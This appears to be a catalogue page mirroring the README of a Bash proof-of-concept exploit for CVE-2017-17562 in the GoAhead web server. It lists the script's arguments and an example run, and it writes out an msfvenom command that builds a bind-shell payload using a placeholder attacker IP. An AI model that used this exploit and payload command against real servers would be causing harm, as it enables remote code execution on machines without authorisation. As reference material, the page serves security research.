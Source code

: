 # bash-CVE-2017-17562

PoC for CVE-2017-17562 written in bash

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/freitzzz](https://github.com/freitzzz) |
| Url      | [https://github.com/freitzzz/bash-CVE-2017-17562](https://github.com/freitzzz/bash-CVE-2017-17562)                                               |
| Stars    | 1                                                          |
| License  | The Unlicense                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# bash-CVE-2017-17562

An PoC implementation in `Bash` for `CVE-2017-17562`.

Requires `curl` for crafting HTTP requests.

Based on [Metasploit](https://www.exploit-db.com/exploits/43877) and [@fssecur3](https://github.com/fssecur3/goahead-rce-exploit) implementations.

## Arguments

The following arguments need to be set as they are required for reconnaissance + payload send:

```
$1: IP/Host of remote vulnerable machine being attacked
$2: Port of remote machine webserver
$4: Path to crafted payload being sent to vulnerable machine
```

Optionally, the following arguments can also be set:

```
$3: If the web server is running under a TLS/SSL tunnel. Defaults to no
$5: Path to list of known vulnerable CGI endpoints, to be used in reconnaissance phase. Defaults to "cgi.endpoints"
```

## Example

```
bash exploit.bash 192.168.1.1 80 yes payload.so cgi.endpoints
```

### Disclaimer

The present code is only for learning and demonstration purposes. You shall not use this in to targets you do not have permission to do so.

No payloads are provided in this repository. However any binary that matches target OS architecture should work. To craft a bind shell payload, you can use `msfvenon`:

```
msfvenom -a <instruction_set> --platform <os> -p generic/shell_bind_tcp LHOST=<attacker_ip_address> LPORT=<target_bind_port> -f elf-so -o payload.so
```


## Get the content

```
git clone https://github.com/freitzzz/bash-CVE-2017-17562
cd bash-CVE-2017-17562
```

{% embed url="https://github.com/freitzzz/bash-CVE-2017-17562" %}

<figure><img src="https://avatars.githubusercontent.com/u/26190214?v=4" alt=""><figcaption><p>freitzzz</p></figcaption></figure>
